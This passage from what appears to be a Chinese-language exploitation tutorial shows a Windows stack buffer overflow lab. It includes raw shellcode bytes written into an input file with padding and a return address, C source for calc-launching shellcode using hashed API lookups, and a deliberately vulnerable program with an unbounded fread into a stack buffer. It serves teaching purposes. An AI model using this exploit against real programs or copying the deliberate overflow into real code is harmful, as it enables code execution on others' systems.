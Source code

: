 ```python
        b"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
        b"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
        b"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
        b"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
        b"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
        b"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
        b"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
        b"\x30\x03\xc6\xeb\xdd")
    name = b'a'*32 + b'b'*4 + ret_eip + shellcode
    f.write(name)
```

其中，`shellcode`由以下程序得到，转换原理见 [Create Shellcode in Windows](https://czxvan.github.io/2023/10/20/Create-Shellcode-in-Windows/)：

```c
#define HASH_ExitThread             0x4b3153e0
#define HASH_WinExec                0x7bb4c07f
 
int entryPoint() {
    DefineFuncPtr(WinExec);
    DefineFuncPtr(ExitThread);
 
    char calc[] = { 'c', 'a', 'l', 'c', '.', 'e', 'x', 'e', '\0' };     // makes our shellcode shorter
    My_WinExec(calc, SW_SHOW);
    My_ExitThread(0);
 
    return 0;
}
```

之后在release模式下运行程序，成功执行`shellcode`，弹出了一个计算器：

![pwn](../pic/Exploitme/pwn.png)

## 复现补充（栈空间不足解决方案）

在一次复现的时候，出现以下情况，程序在执行`fread`的过程中出错（存在随机性）：

![fread_fault](../pic/Exploitme/fread_fault.png)

这可能是因为栈上的空间不足，`fread`在读入数据时将栈底覆盖，导致程序出错。

解决方法为，将漏洞程序修改为：

```c
#include <cstdio>
 
_declspec(noinline) int old_main() {
    char name[32];
    printf("Reading name from file...\n");
 
    FILE *f = fopen("D:\\Users\\czx\\NativeFiles\\Desktop\\tmp\\name.dat", "rb");
    if (!f)
        return -1;
    fseek(f, 0L, SEEK_END);
    long bytes = ftell(f);
    fseek(f, 0L, SEEK_SET);
    fread(name, 1, bytes, f);
    name[bytes] = '\0';
    fclose(f);
 
    printf("Hi, %s!\n", name);
    return 0;
}
```